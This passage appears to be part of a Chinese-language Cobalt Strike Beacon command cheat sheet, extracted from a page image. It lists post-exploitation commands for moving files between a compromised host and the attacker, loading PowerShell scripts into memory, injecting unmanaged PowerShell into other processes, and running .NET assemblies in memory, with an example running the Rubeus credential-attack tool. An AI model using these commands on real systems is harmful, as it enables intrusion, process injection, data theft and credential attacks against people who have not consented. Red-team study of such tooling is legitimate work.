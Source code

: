 ```powershell
beacon > download [C:\filePath]

# 列出正在进行的下载
beacon > downloads

# 取消正在进行的下载
beacon > cancel [*文件*]

# 从攻击者上传文件到当前Beacon主机
beacon > upload [/path/to/file]
```

## Powershell和.NET

### Powershell命令

```powershell
# 从控制服务器导入Powershell .ps1脚本并保存在Beacon内存中
beacon > powershell-import [/path/to/script.ps1]

# 设置一个绑定到本地主机的TCP服务器，并使用powershell.exe下载上面导入的脚本。然后执行指定的函数及其参数，并返回输出。
beacon > powershell [commandlet][arguments]

# 使用非托管Powershell启动给定函数，该函数不启动powershell.exe。所使用的程序由spawnto设置
beacon > powerpick [commandlet] [argument]

# 将非托管Powershell注入特定进程并执行指定命令。这对于长时间运行的Powershell作业很有用
beacon > psinject [pid][arch] [commandlet] [arguments]
```

### .NET远程执行

将本地.NET可执行文件作为Beacon后渗透作业运行。

要求：

* 使用“Any CPU”配置编译的二进制文件。

```powershell
beacon > execute-assembly [/path/to/script.exe] [arguments]
beacon > execute-assembly /home/audit/Rubeus.exe
[*] 分配任务给信标以运行.NET程序：Rubeus.exe
[+] 主机呼叫回家，发送了：318507字节
[+] 收到输出：

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.4.2 
```
